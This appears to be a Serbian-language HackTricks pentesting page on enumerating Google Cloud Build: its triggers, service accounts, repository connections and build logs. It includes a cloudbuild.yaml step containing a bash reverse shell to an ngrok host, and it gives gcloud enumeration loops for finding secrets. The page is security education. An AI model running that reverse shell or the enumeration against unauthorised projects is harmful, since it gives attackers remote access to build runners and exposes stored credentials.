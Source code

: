 # GCP - Cloud Build Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Google Cloud Build je upravljana CI/CD platforma koja **automatizuje procese izgradnje softvera** i puštanja u rad, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava programerima da automatski izgrade, testiraju i implementiraju kod dok pruža fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build okidač je **povezan sa Cloud repozitorijumom ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nisam mogao da vidim način da ukradem Github/Bitbucket token odavde ili iz Cloud repozitorijuma jer kada se repozitorijum preuzme, pristupa se preko URL-a [https://source.cloud.google.com/](https://source.cloud.google.com/) i Github nije pristupačan klijentu.
{% endhint %}

### Događaji

Cloud Build može biti okidač ako:

* **Pritisak na granu**: Navedite granu
* **Pritisak novog taga**: Navedite tag
* **Pull zahtev**: Navedite granu koja prima PR
* **Ručno pozivanje**
* **Pub/Sub poruka**: Navedite temu
* **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan sa tajnom

### Izvršenje

Postoje 3 opcije:

* Yaml/json **specifikacija komandi** za izvršenje. Obično: `/cloudbuild.yaml`
* Jedna koja se može specificirati "inline" u web konzoli i u CLI
* Najčešća opcija
* Relevantna za neautentifikovan pristup
* **Dockerfile** za izgradnju
* **Buildpack** za izgradnju

### Dozvole SA

**Servisni nalog ima opseg `cloud-platform`**, tako da može **koristiti sve privilegije**. Ako **nije specificiran SA** (kao kada se vrši podnošenje), biće korišćen **podrazumevani SA** `<projekat-broj>@cloudbuild.gserviceaccount.com`.

Podrazumevano nisu date nikakve dozvole, ali je prilično lako dati neke:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Odobrenja

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršenje izgradnje** (podrazumevano onemogućeno).

### Odobrenja za PR

Kada je okidač PR jer **svako može izvršiti PR na javne repozitorijume**, bilo bi veoma opasno dozvoliti izvršenje okidača sa bilo kojim PR-om. Stoga, podrazumevano, izvršenje će biti **automatsko samo za vlasnike i saradnike**, i kako bi se izvršio okidač sa PR-ovima drugih korisnika, vlasnik ili saradnik mora komentarisati `/gcbrun`.

<figure><img src="../../../.gitbook/assets/image (150).png" alt="" width="563"><figcaption></figcaption></figure>

### Povezivanja & Repozitorijumi

Povezivanja se mogu kreirati preko:

* **GitHub-a**: Prikazaće OAuth prozor zahtevajući dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Menadžera tajni.**
* **GitHub Enterprise-a**: Zatražiće instalaciju **GithubApp**-a. Autentifikacioni token sa vašeg GitHub Enterprise hosta će biti kreiran i sačuvan u ovom projektu kao tajna **Menadžera tajni.**
* **GitLab-a / Enterprise-a**: Potrebno je **pružiti API pristupni token i čitati API pristupni token** koji će biti sačuvani u **Menadžeru tajni.**

Kada se generiše veza, možete je koristiti da **povežete repozitorijume kojima Github nalog ima pristup**.

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Imajte na umu da su repozitorijumi povezani ovom metodom **dostupni samo u okidačima koji koriste 2. generaciju.**
{% endhint %}

### Poveži repozitorijum

Ovo nije isto kao **`povezivanje`**. Ovo omogućava **različite** načine za **pristup Github ili Bitbucket** repozitorijumu ali **ne generiše objekat povezivanja, već generiše objekat repozitorijuma (prve generacije).**

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Skladište

Ponekad će Cloud Build **generisati novo skladište za čuvanje fajlova za okidač**. To se dešava na primer u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je skladišni bucket pod nazivom [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) kako bi se čuvala `.tgz` datoteka sa fajlovima koji će biti korišćeni.

### Dobijanje shell-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Instalirajte gcloud unutar Cloud Build-a:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeracija

Možete pronaći **osetljive informacije u konfiguracijama izgradnje i zapisnicima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Neautentifikovan pristup

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
